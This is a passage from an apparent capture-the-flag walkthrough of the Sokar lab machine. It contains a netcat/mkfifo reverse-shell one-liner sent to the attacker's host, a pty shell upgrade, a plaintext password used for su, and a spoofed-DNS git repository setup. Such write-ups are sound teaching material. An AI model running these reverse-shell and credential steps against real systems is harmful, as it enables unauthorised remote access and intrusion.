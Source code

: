 ```bash
dnsmasq: query[A] sokar-dev from 192.168.217.163
dnsmasq: /etc/dnsmasq.hosts sokar-dev is 192.168.217.174
```

However, in order for the SSH session to happen, I need to either accept or bypass the host key verification. There are many ways to do this, but sadly, with my current (still! :D) nonexistent interactive shell, I can not type 'yes'. I can not use `ssh-keyscan >> ~/.ssh/known_hosts` as I can't write to `root`'s `.ssh` directory, nor can I modify the command that is being passed onto `system()` in the binary to specify `-o StrictHostKeyChecking=no`.

Unfortunately, due to these restrictions, I had to finally give in and go one step back to `bynarr.py` and use his allowed egress access on `tcp/51242` to build a interactive shell. On one session I started a netcat listener, and on another, I ran `python bynarr.py "/bin/rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.217.174 51242 >/tmp/f"`.

```bash
leonjza@kali/sokar $ nc -lvp 51242
listening on [any] 51242 ...
192.168.217.163: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.217.174] from (UNKNOWN) [192.168.217.163] 40382
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
[bynarr@sokar cgi-bin]$ su - apophis
su - apophis
Password: overdrive

[apophis@sokar ~]$ id
id
uid=501(apophis) gid=502(apophis) groups=502(apophis)
[apophis@sokar ~]$
```

With the interactive shell as `apophis` now, I was able to accept the SSH hostkey check.

The next thing left on the list was to prepare a `git` repository that can actually be cloned. Setting one up is reaaaaally simple. Because I knew that it will be looking for `/root/secret-project`, I prepared just that on my Kali VM:

```bash
leonjza@kali/sokar $ cd /root
leonjza@kali/root $ mkdir secret-project
leonjza@kali/root $ cd secret-project
leonjza@kali/root/secret-project $ git init --bare
Initialized empty Git repository in /root/secret-project/
leonjza@kali/root/secret-project | git:master $
```

Thats it... Next, I cloned it locally in a different folder.

```bash
leonjza@kali/sokar $ git clone ssh://127.0.0.1/root/secret-project
Cloning into 'secret-project'...
root@127.0.0.1's password:
warning: You appear to have cloned an empty repository.
leonjza@kali/sokar $ cd secret-project
leonjza@kali/sokar/secret-project | git:master $
```
